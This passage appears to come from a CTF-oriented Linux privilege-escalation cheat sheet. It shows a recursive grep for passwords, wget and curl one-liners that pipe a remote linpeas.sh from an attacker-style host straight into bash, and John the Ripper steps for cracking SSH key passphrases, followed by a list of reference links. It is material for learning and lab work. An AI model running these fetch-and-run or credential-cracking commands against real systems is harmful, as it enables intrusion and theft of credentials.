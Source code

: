 Recursively searching for passwords is also a handy technique:
```
grep -ri "passw" .
```

Wget Pipe a remote URL directory to Bash (linpeas):
```
wget -q -O - "http://10.10.10.10/linpeas.sh" | bash
```

Curl Pipe a remote URL directly to Bash (linpeas):
```
curl -sSk "http://10.10.10.10/linpeas.sh" | bash
```

## Using SSH Keys
Often, we are provided with password protected SSH keys on CTF boxes.  It it helpful to be able to quicky crack and add these to your private keys.

First we need to convert the ssh key using John:
```
kali@kali:~/.ssh$ /usr/share/john/ssh2john.py ./id_rsa > ./id_rsa_john
...
```

Next we will need to use that format to crack the password:
```
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt ./id_rsa_john
```

John should output a password for the private key.

```

```


## References

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/   
http://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/  
https://payatu.com/guide-linux-privilege-escalation/  
http://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/  
http://www.0daysecurity.com/penetration-testing/enumeration.html  
https://www.rebootuser.com/?p=1623#.V0W5Pbp95JP  
https://www.doomedraven.com/2013/04/hacking-linux-part-i-privilege.html  
https://securism.wordpress.com/oscp-notes-privilege-escalation-linux/  
https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/  
http://hackingandsecurity.blogspot.com/2016/06/exploiting-network-file-system-nfs.html  
https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt 
https://hkh4cks.com/blog/2017/12/30/linux-enumeration-cheatsheet/  
https://digi.ninja/blog/when_all_you_can_do_is_read.php  
https://medium.com/@D00MFist/vulnhub-lin-security-1-d9749ea645e2  
https://gtfobins.github.io/  
https://github.com/rebootuser/LinEnum
